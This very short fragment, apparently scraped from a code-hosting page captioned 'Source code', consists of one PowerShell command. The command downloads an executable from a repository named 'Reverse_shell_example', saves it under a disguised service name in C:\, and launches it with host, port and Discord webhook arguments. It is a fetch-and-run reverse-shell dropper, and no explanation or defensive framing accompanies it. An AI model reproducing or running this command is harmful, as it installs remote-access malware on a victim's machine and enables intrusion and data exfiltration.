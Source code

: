 powershell -Command "(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/JustOfPlay/Reverse_shell_example/main/powershell/build.exe', 'C:\windows_service.exe'); Start-Process 'C:\windows_service.exe' HOSTNAME PORT DISCORD_WEBHHOOK"
